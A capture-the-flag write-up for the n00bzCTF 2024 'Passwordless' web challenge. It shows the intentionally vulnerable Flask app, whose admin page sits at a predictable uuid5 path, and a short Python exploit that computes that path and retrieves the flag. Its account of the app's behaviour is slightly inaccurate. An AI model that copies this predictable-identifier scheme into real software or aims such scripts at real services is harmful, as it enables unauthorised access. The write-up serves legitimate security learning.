 # n00bzCTF-2024
![](attachment/b525cca891743bde0dd6216253c5fda9.png)

## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```
